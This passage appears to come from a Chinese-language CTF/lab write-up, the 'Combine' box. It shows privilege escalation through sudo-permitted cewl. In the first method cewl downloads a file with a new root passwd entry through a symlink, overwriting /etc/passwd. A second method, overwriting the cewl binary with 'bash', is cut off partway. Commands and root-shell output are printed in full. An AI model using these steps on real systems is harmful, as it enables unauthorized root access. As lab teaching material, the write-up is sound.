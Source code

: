 ```ruby
    puts "错误: 无法处理元数据 #{a_url} - #{e.message}" if verbose
  end
end
```

**思路：** 在目标机上创建一个指向`/etc/passwd`的符号链接`aaa.doc`。然后在攻击机上创建一个包含新root用户条目的`aaa.doc`文件，并通过`cewl`的下载功能将攻击机上的文件内容写入目标机的`/etc/passwd`。

**a. 攻击机操作**

创建一个包含新root用户`b`（密码为`abcdefg`）的`passwd`文件，并启动一个HTTP服务。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ echo 'b:$1$AydoDDh4$tEky6m30.0nY3HZ8FgoGI0:0:0::/root:/bin/bash' >> aaa.doc
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**b. 目标机操作**

创建符号链接，并执行`sudo cewl`命令，从攻击机下载文件并覆盖`/etc/passwd`。

```shell
dashamao@Combine:~$ ln -sf /etc/passwd aaa.doc
dashamao@Combine:~$ sudo /usr/bin/cewl http://192.168.205.128/aaa.doc --meta --keep --meta-temp-dir /home/dashamao/
...
processing file: /home/dashamao/aaa.doc
```

**c. 提权成功**

检查`/etc/passwd`文件，确认新用户已添加。然后使用新用户`b`和密码`abcdefg`切换到root。

```shell
dashamao@Combine:~$ tail -1 /etc/passwd
b:$1$AydoDDh4$tEky6m30.0nY3HZ8FgoGI0:0:0::/root:/bin/bash
dashamao@Combine:~$ su b
Password: abcdefg
root@Combine:/home/dashamao# id
uid=0(root) gid=0(root) groups=0(root)
```

**方法二：利用`cewl`的写文件功能覆盖自身**

`cewl`的`-w`参数可以将爬取到的单词列表写入指定文件。因为我们能以root权限运行`cewl`，所以我们可以指定输出文件为`/usr/bin/cewl`本身，从而覆盖它。

**思路：** 在攻击机上创建一个内容为`bash`的文件。然后使用`sudo cewl`从攻击机获取这个"单词"并使用`-w`参数将其写入`/usr/bin/cewl`。这样，`/usr/bin/cewl`就变成了一个内容为`bash`的脚本。再次以root权限执行它，就会得到一个root shell。

**a. 攻击机操作**

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ echo 'bash'>a
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
